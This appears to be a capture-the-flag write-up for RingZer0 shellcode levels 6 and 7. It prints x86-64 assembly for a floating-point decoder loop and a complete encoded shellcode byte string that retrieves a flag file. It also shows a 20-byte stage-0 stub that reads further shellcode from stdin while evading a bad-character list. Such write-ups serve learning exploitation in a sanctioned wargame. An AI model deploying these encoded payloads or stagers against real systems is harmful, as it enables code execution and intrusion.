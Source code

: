 ```
mov cl, (_a7-_start)/4
mov bl, (_b7-_start)/4
_decodeloop:    
fild dword [rax+rbx*4]  ; load integer
dec bl
fiadd dword [rax+rcx*4] ; do the actual decoding
fistp dword [rax+rcx*4] ; store the decoded bytes
loop _decodeloop        ; use rcx as counter and index
jmp _a0                 ; jump to decoded shellcode
```

Let's run it!

```
shellcode>\x31\xc9\xeb\x3f\x10\x10\x10\x11\x20\x15\x1f\x2b\x82\x1a\x11\x10\x10\x10\x10\x89\x10\x11\x10\x10\x10\x10\x10\x11\x10\x10\x10\x10\x3f\xfe\xf4\xfe\x38\x21\xb0\x3f\x3f\x3f\x3f\x3f\xfd\x3f\xfe\xf4\xa0\xf2\x37\xfe\xe7\xfe\xf4\x37\x87\x38\x86\xfe\xf5\x9f\xf1\x3f\x20\x11\x10\x90\x31\xdb\xb1\x08\xb3\x10\xdb\x04\x98\xfe\xcb\xda\x04\x88\xdb\x1c\x88\xe2\xf3\xeb\xab
    Shellcode received...
    Shellcode length (89) bytes.

    Success: Executing shellcode...

/flag/level6.flag^@
FLAG-<redacted>
Connection to shellcode.ringzer0team.com closed.
```

Got it with *one* byte to spare!

Level 7: Ultra-Violence
-----------------------

OK, I thought the last level was pretty hard, having to resort to floating point instructions to carve out a shellcode. I was shocked to see the description for level 7:

```
This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x68 and \x30 to \x81" max size 40 bytes.
For an unknown funky reason I decide to add couple of random bytes in your buffer after the twentieth character.
Random chunk of bytes size is based on "rand() % 20"
```

Waaaaat. A shit-ton of bad chars, plus it seems I couldn't trust whatever I sent after the twentieth bytes. This effectively cut my shellcode size to *just twenty bytes*. I could never send in a stage0 that would carve out the real shellcode, as there was simply not enough space. Instead, my stage 0 would have to read in the shellcode from the socket directly. So, I needed a way to call `syscall` to read from stdin. However, `0x0f` and `0x05` are badchars. Furthermore, where exactly would I store this newly read shellcode?

Here's what I came up with. I'll dump out stage 0 and explain it, going bit by bit (just as I did when making this monstrosity). This assembles to *exactly* 20 bytes:

```
bits 64
_start:                 
add al, _syscall-_start
fldz                    
fsub dword [rax]        
fistp dword [rax]       
sbb esi, esi            
xchg esi, edi           
sbb esi, esi            
mov dl, 0xf0            
_syscall:
dd -84907592.0          
```